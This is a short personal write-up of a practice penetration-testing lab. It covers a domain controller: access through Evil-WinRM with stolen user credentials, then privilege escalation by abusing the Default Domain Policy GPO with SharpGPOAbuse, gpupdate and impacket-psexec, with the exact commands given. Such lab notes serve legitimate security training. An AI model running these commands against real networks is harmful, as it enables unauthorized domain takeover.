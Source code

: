 	- Get local.txt in apache desktop
	![[Pasted image 20250208130647.png]]

# 192.168.197.97 (DC01)
## Initial Access & Flag
- Evil-WinRM into machine with charlotte credentials
	- Get local.txt on Charlotte's Desktop
	![[Pasted image 20250208130141.png]]
## Privilege Escalation
- Use SharpGPOAbuse.exe to escalate
	![[Pasted image 20250208132155.png]]
	- Find GPO to abuse:
		![[Pasted image 20250208145412.png]]
	- Charlotte has permisssions on this policy (SharpHound or other cmd)
	- `.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount charlotte --GPOName "Default Domain Policy"`
	- Force the change with `gpupdate /force`
	- Re-enter with impacket-psexec:
		`impacket-psexec SECURA/charlotte@192.168.197.97`
## Flag
- Get proof.txt from Administrator.DC01 desktop
![[Pasted image 20250208150505.png]]
# Further Reference
1. Ligolo-Ng Tutorial: https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740
2. SharpGPOAbuse.exe Tutorial: https://medium.com/@mahdi_78420/vault-walkthrough-practice-41f28ebfe045